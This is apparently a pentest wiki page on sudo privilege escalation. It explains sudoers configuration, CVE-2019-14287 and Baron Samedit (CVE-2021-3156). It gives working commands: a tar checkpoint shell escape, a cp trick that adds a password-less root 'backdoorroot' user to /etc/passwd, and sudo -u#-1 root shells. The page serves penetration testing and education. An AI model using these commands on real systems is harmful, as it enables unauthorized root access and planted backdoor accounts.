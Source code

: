 # 🛠️ SUDO

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID. Typically, this means that the user's sudoers entry has the special value ALL in the Runas specifier. Sudo supports running a command with a user-specified user name or user ID, if permitted by the sudoers policy.

**Find vulnerable users**

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
# specified by uid
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` \(or its 32-bit unsigned equivalent `4294967295`\), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

**Exploits** :

* `sudo -u#-1 sh -p`
* `sudo -u#4294967295 sh -p`

**Additional References** :

* [https://nvd.nist.gov/vuln/detail/CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

#### CVE-2021-3156 - Heap-Based Buffer Overflow in Sudo \(Baron Samedit\)

Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, login to the system as a non-root user and run command `sudoedit -s /`.

* If the system is patched, it will respond with an error that starts with `usage:` such as :

```text
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

* If the system is vulnerable, it will respond with an error that starts with `sudoedit:` such as :

```text
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

**Exploits** :

To exploit a vulnerable system, you can use this exploit : [https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156\_one\_shot](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot) or [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

**Additional References** :

* Original Advisory : [https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156)

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

